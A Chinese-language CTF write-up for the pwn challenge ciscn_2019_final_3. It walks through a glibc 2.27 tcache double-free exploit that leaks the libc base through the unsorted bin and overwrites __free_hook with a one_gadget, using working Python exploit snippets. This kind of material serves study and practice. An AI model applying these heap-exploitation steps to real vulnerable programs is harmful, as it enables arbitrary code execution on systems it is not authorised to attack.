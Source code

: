 由于远程 libc 版本和本地二进制文件的版本不同，打远程时推荐使用 ret2shellcode，感觉这个更接近预期解。

### ciscn_2019_final_3

提供了 libc，发现是 2.27 版本的，考虑和 tcache 利用有关。

程序提供了 `add` 和 `remove` 两个功能，首先 `add` 只能创建小于 0x78 字节的 chunk，且最多创建 0x18 个 chunk。`gift` 会返回分配到的内存地址。而在 `remove` 中，`free` 之后没有将指针置 null，存在 double free。

由于题目给了 libc，我们希望能泄露 libc 地址，这就需要 tcache 中某节点的 fd 指向 libc。而我们知道，unsorted bin 指向 `main_arena` 的指针是指向 libc 的，那么能不能把这个指针给 tcache 中某节点的 fd 呢？

由于 0x78 字节的限制我们无法直接创建适合放入 unsorted bin 中的 chunk，因此需要先合并小堆块，然后修改 `chunk0` 的 `chunk_size` 把他变成一个大堆块。那么如何修改这个 `chunk_size` 字段？这就需要用到 double free，假设我们连续申请堆块申请到了 `chunk11`：

```python
chunk0 = add(0x78)
add(0x18)
for i in range(10):
    add(0x78)
```

> 注：第二次分配了 0x18 字节是 64 位下最小分配大小。这个 `chunk1` 的分配是为了让 unsorted bin 与 tcache 错位。

那么这时连续两次 `free` 掉 `chunk11`，再 `add` 回来，使得 `chunk11->fd = chunk0-0x10`，那么我们就在 `chunk0-0x10` 处伪造了一个堆块，再次 `add` 就会分配到 `chunk0-0x10`，此时填入准备好的 `prev_size` 及 `chunk_size` 即可修改 `chunk0` 大小。注意为了确保释放后进入 unsorted bin，`chunk_size` 需大于 0x400 字节。

```python
remove(11)
remove(11)
add(0x78,p64(chunk0-0x10)) # chunk11->fd = chunk0-0x10
add(0x78,p64(chunk0-0x10))
add(0x78,p64(0)+p64(0x4a1))
```

随后我们释放 `chunk0` 就会进入 unsorted bin，而释放 `chunk1` 会进入 `tcache[0]`。此时 `add` 就会得到 `chunk0`，并使得 `chunk1->fd = main_arena`，那么接下来一次 `add` 得到 `chunk1`，下一次 `add` 得到 `main_arena`，减去偏移量即 libc 基址。

```python
remove(0) # unsorted bin
remove(1) # tcache[0]
add(0x78) # chunk0; chunk1->fd = main_arena
add(0x18) # chunk1
main_arena = add(0x18)
base = main_arena - 0x3ebca0
leak('base', base)
```

最后再次利用 double free，用 `one_gadget` 覆盖 `free_hook`，再次调用 `remove` 即可。

```python
libc = ELF('./libc.so.6')
free_hook = base + libc.sym['__free_hook']
one_gadget = base + 0x10a38c

add(0x28)
remove(18)
remove(18)
add(0x28, p64(free_hook))
add(0x28, p64(free_hook))
add(0x28, p64(one_gadget))
remove(0)
```
